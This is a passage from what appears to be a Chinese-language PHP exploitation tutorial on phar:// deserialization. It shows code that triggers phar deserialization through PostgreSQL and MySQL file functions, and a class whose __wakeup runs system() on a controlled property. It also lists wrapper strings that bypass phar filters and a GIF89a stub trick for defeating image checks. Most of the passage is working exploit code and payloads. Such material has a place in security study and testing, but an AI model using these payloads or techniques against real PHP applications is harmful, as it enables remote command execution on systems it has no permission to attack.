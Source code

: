 ```php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>

```
## 绕过方式

当环境限制了phar不能出现在前面的字符里，可以使用compress.bzip2://和compress.zlib://等绕过

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用

```php
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

GIF格式验证可以通过在文件头部添加GIF89a绕过

```php
1、$phar->setStub(“GIF89a”."<?php __HALT_COMPILER(); ?>");
2、生成一个phar.phar，修改后缀名为phar.gif
```
# PHP原生类反序列化利用
